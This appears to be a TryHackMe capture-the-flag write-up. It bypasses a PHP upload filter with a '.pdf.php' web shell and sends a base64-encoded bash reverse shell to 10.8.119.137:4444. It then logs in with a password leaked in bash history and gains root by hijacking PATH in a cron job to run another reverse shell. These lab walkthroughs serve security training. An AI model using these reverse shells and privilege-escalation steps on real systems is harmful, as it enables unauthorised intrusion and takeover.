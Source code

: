 ```yaml
---
title: Hacker vs Hacker
description: 'Gaining access to an already compromised machine and stopping a script that tries to kick us out'
pubDate: 2023-09-15
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/dc0c7a25ca75eda427f95bfe6e4e24ab.png'
---
```


In the `upload.php` route there is a comment in the HTML source.

```php
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
```

This means the backdoor/shell needs to have `.pdf.php` as the last part of the filename.

Doing a few guess and we find: `/cvs/shell.pdf.php`, we can execute command by doing:

```
GET /cvs/shell.pdf.php?cmd=id HTTP/1.1
```

## USER

Shell without special characters:
```bash
echo -n "bash -c 'bash   -i >& /dev/tcp/10.8.119.137/4444   0>&1 '" | base64
YmFzaCAtYyAnYmFzaCAgIC1pID4mIC9kZXYvdGNwLzEwLjguMTE5LjEzNy80NDQ0ICAgMD4mMSAn
```

Triggering it:

```
GET /cvs/shell.pdf.php?cmd=echo+YmFzaCAtYyAnYmFzaCAgIC1pID4mIC9kZXYvdGNwLzEwLjguMTE5LjEzNy80NDQ0ICAgMD4mMSAn+|+base64+-d+|+bash HTTP/1.1
```


## ROOT

In the `/home/lachlan` directory we find some entries in the `.bash_history`:

```bash
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

Now we can login as lachlan through SSH with password `thisistheway123`.

```bash
ssh lachlan@10.10.50.105 # <-- thisistheway123
```

We get disconnected after a few seconds though.

The cron persistence is causing the disconnect:

```
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

We can abuse the fact that the `pkill` command doesn't use an absolute path by hijacking the PATH.

Send the command:
```bash
ssh lachlan@10.10.50.105 'cp -p /usr/bin/echo /home/lachlan/bin/pkill' # <-- thisistheway123
```

Now we can login without being disconnected.
We still get this annoying 'nope' message all the time though.

To get a root shell put a reverse shell in the `pkill` file we just created:
```bash
echo '#!/bin/bash\nbash -i >& /dev/tcp/10.8.119.137/4444 0>&1' > /home/lachlan/bin/pkill && chmod +x /home/lachlan/bin/pkill
```

Or do it in one go:
```bash
ssh lachlan@10.10.50.105 'echo "#!/bin/bash\nbash -i >& /dev/tcp/10.8.119.137/4444 0>&1" > /home/lachlan/bin/pkill && chmod +x /home/lachlan/bin/pkill'
```
